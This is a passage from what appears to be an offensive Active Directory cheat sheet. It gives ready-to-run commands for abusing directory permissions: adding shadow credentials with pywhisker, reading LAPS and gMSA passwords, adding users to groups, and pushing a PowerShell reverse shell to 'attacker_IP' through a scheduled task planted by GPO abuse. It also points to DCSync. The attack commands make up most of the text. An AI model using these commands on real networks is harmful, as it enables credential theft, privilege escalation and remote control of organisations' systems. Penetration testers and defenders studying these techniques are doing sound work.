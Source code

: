 ```bash
pywhisker.py -t computer$ -a add -u user1 -p password -d domain.local -dc-ip <DC_IP> --filename user2
```

* [Kerberos RBCD](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition#bkmrk-resource-based-const)

##### AllExtendedRights
* ReadLAPSPassword

```bash
crackmapexec ldap <DC_IP> -u user1 -p password -M laps -O computer="<target>"
```

* ReadGMSAPassword

```bash
ldeep ldap -u user1 -p password -d domain.local -s <LDAP_server_IP> gmsa
```

* RBCD

It seems that an [RBCD](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition#bkmrk-resource-based-const) can be realized with AllExtendedRights on a computer as well.

#### On a group

##### WriteProperty/AllExtendedRights/GenericWrite Self
With one of this rights we can add a new member to the group

```bash
net rpc group addmem <group> user2 -U domain.local/user1%password -S <DC_IP>
```

#### On GPO

##### WriteProperty on a GPO
* We can update a GPO with a scheduled task for example to obtain a reverse shell

```bash
./pygpoabuse.py domain.local/user1 -hashes lm:nt -gpo-id "<GPO_ID>" -powershell -command "\$client = New-Object System.Net.Sockets.TCPClient('attacker_IP',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" -taskname "The task" -description "Important task" -user
```

* Create a local admin

```bash
./pygpoabuse.py domain.local/user1 -hashes lm:nt -gpo-id "<GPO_ID>"
```

#### On the domain/forest

##### DS-Replication-Get-Changes + DS-Replication-Get-Changes-All
We can [**DCSync**](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition#bkmrk-credentials-gatherin)

